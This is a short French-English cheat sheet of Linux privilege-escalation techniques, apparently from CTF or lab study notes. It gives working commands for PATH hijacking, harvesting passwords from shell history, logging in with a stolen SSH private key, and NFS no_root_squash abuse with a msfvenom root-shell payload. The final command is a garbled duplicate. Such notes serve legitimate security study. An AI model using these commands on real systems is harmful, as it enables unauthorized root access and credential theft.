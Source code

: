 4. Wait 1 minute for the Bash script to execute.
```bash
5. In command prompt type: /tmp/bash -p
```

### EXPLOITING PATH VARIABLE
On regarde le nom des fichiers qui sont executés  
On se déplace dans /tmp et on crée un fichier du même nom avec le script dedans
```bash
echo $PATH
```
On commence par cree le faux script
```bash
$ cd /tmp
$echo "[whatever command we want to run]" > [name of the executable we're imitating] 
```

***exemple : ***
```bash
echo "/bin/bash" > ls
$chmod +x filename	-> x rend le fichier executable
$export PATH=/tmp:$PATH -> on met /tmp dans le PATH
```

et on réexecute le file

### MOT DE PASSE ACCIDENTELLEMENT TAPÉ :
si un user à accidentellement tapé un mot de passe dans une vraie ligne :
c'est rangé dans $ history ou :
```bash
$ cat ~/.*history | less
```

### CONFIG FILES : (.ovpn par exemple)
Ils ne contiennent pas le mot de passe mais peuvent contenir l'emplacement des fichiers qui les contiennent

### SSH PRIVATE KEY :
Suppose that you found the id_rsa file of a remote user
- copy it in the local machine
```bash
chmod 600 id_rsa
ssh -i id_rsa username@ipaddress
```

### NFS root_squashing
```
$ cat /etc/exports -> ici on avait trouvé no_root_squash
```
sur notre machine :
on doit run en tant que root donc : 
```bash
$ sudo su
$ mkdir /tmp/nfs
$ mount -o rw,vers=2 <targetIP>:/tmp /tmp/nfs
```
on crée un payload qui pop un simple bash
```bash
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
$ chmod +x /tmp/nfs/shell.elf
```
Sur la target :
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf4
```
